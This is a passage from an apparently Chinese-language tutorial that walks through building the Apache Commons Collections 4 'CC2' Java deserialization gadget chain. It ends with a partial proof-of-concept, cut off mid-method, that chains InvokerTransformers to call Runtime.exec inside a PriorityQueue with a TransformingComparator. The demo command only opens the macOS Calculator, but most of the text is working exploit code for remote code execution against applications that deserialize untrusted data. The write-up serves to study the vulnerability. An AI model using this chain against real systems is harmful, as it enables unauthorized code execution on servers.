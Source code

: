 然后再创建一个comparator，把transformerChain传进去

```java
Comparator comparator = new TransformingComparator(transformerChain);
```

实例化PriorityQueue，因为要执行compare，所以得传入2个单位，第二个参数写刚刚的comparator去执行到comparator.compare进而触发TransformingComparator的transform方法

```
PriorityQueue queue = new PriorityQueue(2, comparator);
queue.add(1);
queue.add(2);
```

往transformerChain替换进恶意的transformers

```java
setFieldValue(transformerChain, "iTransformers", transformers);
```

最后的POC

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

import static com.sun.xml.internal.xsom.impl.UName.comparator;

public class CC2 {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        Transformer[] faketransformer = new Transformer[]{new ChainedTransformer(new Transformer[]{ new ConstantTransformer(1) })};

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
                new ConstantTransformer(1) };

        // 传入fake防止序列化时执行
        Transformer transformerChain = new ChainedTransformer(faketransformer);
        Comparator comparator = new TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(2, comparator);
```